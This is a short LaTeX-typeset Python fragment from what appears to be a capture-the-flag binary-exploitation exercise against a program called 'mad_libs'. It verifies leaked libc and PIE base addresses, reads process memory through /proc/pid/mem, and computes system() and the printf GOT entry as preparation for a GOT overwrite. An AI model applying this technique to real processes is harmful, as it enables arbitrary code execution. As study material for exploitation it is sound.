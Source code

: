 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\SpecialCharTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{print}\NormalTok{(}\StringTok{\textquotesingle{}maps  libc=}\SpecialCharTok{\%\#x}\StringTok{ pie=}\SpecialCharTok{\%\#x}\StringTok{\textquotesingle{}} \OperatorTok{\%}\NormalTok{ (base\_of(}\StringTok{\textquotesingle{}libc.so.6\textquotesingle{}}\NormalTok{), base\_of(}\StringTok{\textquotesingle{}mad\_libs\textquotesingle{}}\NormalTok{)))}
\BuiltInTok{print}\NormalTok{(}\StringTok{\textquotesingle{}leak  libc=}\SpecialCharTok{\%\#x}\StringTok{ pie=}\SpecialCharTok{\%\#x}\StringTok{\textquotesingle{}} \OperatorTok{\%}\NormalTok{ (libc\_base, pie\_base))   }\CommentTok{\# 兩者必須一模一樣且頁對齊}

\KeywordTok{def}\NormalTok{ mem(addr, n}\OperatorTok{=}\DecValTok{8}\NormalTok{):                                       }\CommentTok{\# ✶ 直接讀行程記憶體}
    \ControlFlowTok{with} \BuiltInTok{open}\NormalTok{(}\StringTok{\textquotesingle{}/proc/}\SpecialCharTok{\%d}\StringTok{/mem\textquotesingle{}} \OperatorTok{\%}\NormalTok{ pid, }\StringTok{\textquotesingle{}rb\textquotesingle{}}\NormalTok{) }\ImportTok{as}\NormalTok{ f:}
\NormalTok{        f.seek(addr)}\OperatorTok{;} \ControlFlowTok{return}\NormalTok{ f.read(n)}

\NormalTok{system     }\OperatorTok{=}\NormalTok{ libc\_base }\OperatorTok{+} \BaseNTok{0x58740}
\NormalTok{printf\_got }\OperatorTok{=}\NormalTok{ pie\_base  }\OperatorTok{+} \BaseNTok{0x4010}
\BuiltInTok{print}\NormalTok{(}\StringTok{\textquotesingle{}printf@GOT before = }\SpecialCharTok{\%\#x}\StringTok{   (libc printf = }\SpecialCharTok{\%\#x}\StringTok{)\textquotesingle{}} \OperatorTok{\%}\NormalTok{ (u64(mem(printf\_got)), libc\_base }\OperatorTok{+} \BaseNTok{0x600f0}\NormalTok{))}


\end{Highlighting}
\end{Shaded}
\end{document}
